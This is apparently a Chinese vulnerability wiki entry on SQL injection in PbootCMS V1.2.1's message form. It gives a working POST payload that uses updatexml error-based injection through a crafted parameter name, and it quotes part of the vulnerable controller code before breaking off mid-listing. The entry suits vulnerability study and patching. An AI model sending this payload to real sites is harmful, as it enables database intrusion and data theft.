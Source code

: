PbootCMS sql注入
================

0x01 前台home模块注入漏洞
-------------------------

0x01.1 在线留言处insert sql注入
-------------------------------

### 0x01.1.2 漏洞演示

注：我本地测试的所以我把验证验证码那一步关闭了=-=，实战中请自己加上验证码

![](/Users/aresx/Documents/VulWiki/.resource/PbootCMSsql注入/media/rId24.png)

    url:http://127.0.0.1/cms/PbootCMS-V1.2.1/index.php/Message/add
    post:
        contacts[content`,`create_time`,`update_time`) VALUES ('1', '1' ,1 and updatexml(1,concat(0x3a,user()),1) );-- a] = 1111
        content = 1111
        mobile = 1111

![](/Users/aresx/Documents/VulWiki/.resource/PbootCMSsql注入/media/rId25.png)

### 0x01.1.2 漏洞解读

路径：PbootCMS-V1.2.1\\apps\\home\\controller\\MessageController.php
方法：add(

    // 留言新增
        public function add()
        {
            if ($_POST) {

                if (time() - session('lastsub') < 10) {
                    alert_back('您提交太频繁了，请稍后再试！');
                }

                // 验证码验证
                $checkcode = post('checkcode');
                if ($this->config('message_check_code')) {
                    // if (! $checkcode) {
                    //     alert_back('验证码不能为空！');
                    // }

                    if ($checkcode != session('checkcode')) {
                        alert_back('验证码错误！');
                    }
                }

                // 读取字段
                if (! $form = $this->model->getFormField(1)) {
                    alert_back('留言表单不存在任何字段，请核对后重试！');
                }
